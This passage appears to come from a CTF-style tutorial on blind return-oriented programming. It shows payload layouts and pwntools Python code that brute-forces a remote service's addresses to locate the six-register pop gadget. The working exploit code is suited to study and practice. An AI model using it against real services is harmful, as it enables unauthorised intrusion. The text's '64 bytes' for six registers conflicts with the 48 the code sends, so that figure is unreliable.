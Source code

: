 ### Find BROP gadget
Now that we have a stop gadget, we can use it to find the BROP gadget.

We can test for a gadget using the following form of payload.

```
padding_bytes|canary|address|bytes to pop|stop gadget|bad addresses
```

For example, if we want to test for `pop rdi; pop rsi; ret`, our payload would be

```
padding_bytes|canary|address|8 bytes for rdi|8 bytes for rsi|stop gadget|bad addresses
```

If it really does pop 2 registers, we will safely return to stop gadget and the service will not crash. This is an indicator that the gadget we are testing for really pops 2 registers. Any more of any less than that will crash the service.

In our case, we want to find the BROP gadget that pops 6 registers. So our payload would be,

```
padding|address|64 bytes to pop|stop gadget|bad addresses
```

(note that we have no canary in this example)

One concern is would we get a false alarm? A gadget that pops 6 addresses but is not the end of `__libc_csu_init`? Statistically speaking, it is almost impossible to find another gadget in a binary that pops 6 registers apart from this.

```python
# checks if the gadget pops 6 registers
def get_brop_gadget(offset, stop_gadget, addr):
	try:
		r = remote(host, port)
		r.recvuntil('WelCome my friend,Do you know password?\n')
		r.send('a' * offset + p64(addr) + p64(0) * 6 + p64(stop_gadget) + p64(0) * 10)
		content = r.recv(timeout=0.1)
		r.close()
		return 'WelCome' in content
	except EOFError:
		r.close()
		return False
	except PwnlibException:
		return get_brop_gadget(offset, stop_gadget, addr)

# checks if it is not just a stop gadget itself
def check_brop_gadget(offset, addr):
	try:
		r = remote(host, port)
		r.recvuntil('WelCome my friend,Do you know password?\n')
		payload = 'a' * offset + p64(addr) + 'a' * 8 * 10
		r.sendline(payload)
		content = r.recv()
		r.close()
		return False
	except EOFError:
		r.close()
		return True
	except PwnlibException:
		return check_brop_gadget(offset, addr)

def find_brop_gadget(offset, stop_gadget):
	addr = 0x400000
	while True:
		if get_brop_gadget(offset, stop_gadget, addr) and check_brop_gadget(offset, addr):
			return addr
		addr += 1
```